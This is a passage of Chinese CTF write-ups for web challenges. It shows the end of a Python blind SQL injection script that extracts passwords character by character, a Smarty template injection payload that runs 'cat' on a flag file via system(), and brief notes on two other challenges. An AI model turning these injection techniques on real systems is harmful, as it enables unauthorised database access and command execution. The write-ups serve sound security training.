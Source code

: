 ```python
                    "id": "0^(ord(substr((select(group_concat(password))from(F1naI1y))," + str(x) + ",1))>" + str(mid) + ")"
                }
                r = requests.get(url=url, params=params)
                if "others~~~" in r.text:
                    left = mid + 1
                else:
                    right = mid
                mid = (left + right) // 2
            if left < 32 or right > 127:
                break
            flag += chr(mid)
            print("flag:",  flag)
            time.sleep(1)
getDatabase()
getTable()
getColmun()
getFlag()

```


======================================================
# [CISCN2019 华东南赛区]Web11

改XFF，IP地址会随之改变

![在这里插入图片描述](https://img-blog.csdnimg.cn/a8ccd0e08de84f15ad3aeee314223a77.png)
没思路，随便输点什么看看有没有报错

![在这里插入图片描述](https://img-blog.csdnimg.cn/b1a2987b2a3d4fd3ad9a705f06032d09.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5b29c2badbe24da2aa055f43d41b78cf.png)
模板注入，参考博客

`{system('cat ../../../../../../flag')}`

======================================================

# [BSidesCF 2019]Futurella
![在这里插入图片描述](https://img-blog.csdnimg.cn/5e0b15becc084f2cbdc13389b078ad7d.png)
ctrl+U

擦，源码底部给了flag，以为是假的，试了试是对的

![在这里插入图片描述](https://img-blog.csdnimg.cn/fdf2e51311fd4440a5b2f1e919c5ed77.png)
不过如果你复制这些文字去搜索内容的时候也会看到翻译后的内容，这里应该是应用了`class`换了原文的显示形式


=======================================================
# [SUCTF 2019]Pythonginx
>[参考博客](https://blog.csdn.net/qq_51684648/article/details/123501658)
>[参考博客2](https://blog.csdn.net/RABCDXB/article/details/115451137)
